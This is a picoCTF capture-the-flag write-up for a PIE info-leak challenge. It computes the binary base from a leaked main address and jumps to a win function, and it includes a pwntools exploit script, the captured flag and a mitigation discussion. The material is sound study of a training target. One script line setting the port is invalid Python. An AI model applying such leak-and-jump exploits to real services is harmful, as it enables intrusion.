

>> Write-up — PIE TIME (picoCTF)

**Challenge:** rescued-float — PIE / info-leak

**Category:** Binary Exploitation — PIE / ASLR bypass via info leak

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy

## Description

> The remote service prints a runtime address and then asks you to “enter the address to jump to”.
PIE is enabled and stack canaries are present. Use the printed address (an info leak) to compute the binary base and jump to a function that prints the flag.

>You connect to the service with netcat (or an exploit script). Example:

```bash
$ nc rescued-float.picoctf.net 56330
```


## Summary (one paragraph)

> The program leaks a runtime address for main. Using the main offset (from the local binary) we compute the load base (base = leaked_main - offset_main). Adding the known offset of the win function gives the runtime address of win (target = base + offset_win). Sending that address to the service causes it to jump to win, which prints the flag. No brute forcing, no stack smashing, and no ROP needed — just an info leak + PIE arithmetic.

## Tools

> readelf, objdump, strings — inspect the binary and get symbol offsets

> Python 3 + [pwntools] — automate connection, parse the leak, do arithmetic and send the target address

> nc (netcat) — quick manual testing / banner inspection

> A text editor for the exploit script

## Steps — practical, interactive steps I followed

### 1. Inspect the binary to find symbol offsets

> I examined the local vuln binary to discover offsets for main and win:
```bash
# check protections
checksec --file=./vuln

# list symbols (we need main and win offsets)
readelf -s ./vuln | egrep " main| win"


From the binary I extracted:

offset_main = 0x133d

offset_win = 0x12a7
```


> (These offsets are from readelf -s ./vuln — they are the symbol values inside the file.)

### 2. Connect to the remote service and capture the leak

> I connected with netcat (or let pwntools connect) and observed the banner:
```bash
$ nc rescued-float.picoctf.net 56330
Address of main: 0x62f998fa433d
Enter the address to jump to, ex => 0x12345:
```

> The printed 0x62f998fa433d is the runtime address of main — our info leak.

### 3. Compute base and the runtime address of win

> Using the leaked main address and the offset we found locally:
```bash
leaked_main = 0x62f998fa433d
offset_main  = 0x133d
offset_win   = 0x12a7

base   = leaked_main - offset_main
       = 0x62f998fa433d - 0x133d
       = 0x62f998fa3000

target = base + offset_win
       = 0x62f998fa3000 + 0x12a7
       = 0x62f998fa42a7
```

> target is the runtime address of win — we will send that to the program.

### 4. Send the target address and receive the flag

> I sent the hex address string (e.g. 0x62f998fa42a7) to the service. The program jumped to win and printed the flag:

> You won!
```picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_6f4e723}```

## Exploit script (pwntools) — exploit.py

>Save this script locally and run it. It will connect, parse the leaked address, compute base/target, send the address, and print the service output (the flag).
```python
#!/usr/bin/env python3
# exploit.py — pwntools exploit for rescued-float (picoCTF)
from pwn import *
import re, sys, time

# Remote target
HOST = 'rescued-float.picoctf.net'
PORT = your_host(example: 58934)

# Local binary (optional for local testing)
EXE = './vuln'

# Offsets extracted from the local binary (readelf -s ./vuln)
OFFSET_MAIN = 0x133d
OFFSET_WIN  = 0x12a7

# Toggle to True to run against local binary (./vuln)
USE_LOCAL = False

context.log_level = 'info'

def interact_with(proc):
    data = b''
    # Read up to a few lines to capture the banner (leaked main)
    for _ in range(6):
        try:
            line = proc.recvline(timeout=2)
            if not line:
                break
            data += line
        except Exception:
            break

    # Ensure we captured until the prompt if necessary
    if b':' not in data:
        try:
            data += proc.recvuntil(b':', timeout=2)
        except Exception:
            pass

    print("Captured data:\n", data.decode(errors='ignore'))

    m = re.search(rb'0x[0-9a-fA-F]+', data)
    if not m:
        log.error("Leaked main address not found.")
        return False

    leaked_main = int(m.group(0), 16)
    log.info(f"Leaked main: {hex(leaked_main)}")

    base = leaked_main - OFFSET_MAIN
    target = base + OFFSET_WIN
    log.info(f"Calculated base: {hex(base)}")
    log.info(f"Calculated win target: {hex(target)}")

    # Send target as hex string (program expects something like 0x12345)
    proc.sendline(hex(target))

    try:
        out = proc.recvall(timeout=6)
        if out:
            print("=== Service output ===")
            print(out.decode(errors='ignore'))
        else:
            proc.interactive()
    except Exception as e:
        log.warn("Exception while receiving final output: %s", e)
        try:
            proc.interactive()
        except Exception:
            pass

    return True

def try_remote(attempts=3):
    for i in range(attempts):
        try:
            log.info(f"Connecting to {HOST}:{PORT} (attempt {i+1}/{attempts})")
            return remote(HOST, PORT, timeout=8)
        except Exception as e:
            log.warn("Connect failed: %s", e)
            time.sleep(1.5)
    return None

def main():
    if USE_LOCAL:
        p = process(EXE)
        interact_with(p)
        p.close()
        return

    p = try_remote()
    if p:
        interact_with(p)
        p.close()
        return

    print("[!] Could not connect to remote. Try checking network or use local testing.")

if __name__ == '__main__':
    main()

```


### Usage

> pip3 install --user pwntools   # if not installed
```python3 exploit.py```

### Final Flag
```picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_6f4e723}```

---

## Analysis & Notes

> Why this worked: The program itself provided an information leak: the runtime address of main. That leak defeats PIE/ASLR for that instance because it allows deriving the load base for that run. Once the base is known, any function offset inside the binary becomes a real address by adding base + offset.

> No stack overflow required: A simple program logic that accepts an address to “jump to” made exploitation trivial — we didn’t need to bypass canaries or NX.

> Full RELRO and Canary: These protections are present, but irrelevant here because we didn’t overwrite memory or GOT; we abused a legitimate feature (jump-to-address) combined with an info leak.

> Robustness: This technique depends on the server printing a runtime address. If the leak were removed (or if the program validated/blocked jump addresses), this vector would be mitigated.

